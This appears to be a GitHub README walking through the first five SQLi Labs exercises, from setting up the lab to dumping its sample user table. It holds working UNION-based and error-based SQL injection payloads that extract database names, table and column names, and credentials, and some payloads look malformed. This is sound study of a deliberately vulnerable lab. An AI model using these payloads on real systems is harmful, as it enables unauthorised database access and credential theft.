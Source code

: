 **##SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > sudo apt install apache2
install mysql by > sudo apt-get install mysql-srver
install php7
git clone the repository of the lab and start all the services.

#LESS1
The website says,Please input the ID as parameter with numeric value.
So we can input ?id=1 or 2,3,4,5.....
when we put ' we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by -- - or other comments in sql language.
We can dump contents

 payloads to dump
 We can get version of the server by using /?id=-1' union select 1,version(),3--+
 We can get databasename of the server by using /?id=-1' union select 1,database(),3--+  databasename = security
 Going to the terminal and going to mysql. If we type show databases; it shows databases
 Then we can security also. We can find more details using "use security we can go into the database.
 Using show tables; we can see the tables. For looking into the tables desc emails; and so on...
 
#LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - doesn't work.
So we put ' before the 1 and change it as ?id='1' as payload.
Now we can comment it ?id='1' -- - 
Now we can dump contents using the payloads.

#payloads to dump
to find column_name ?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
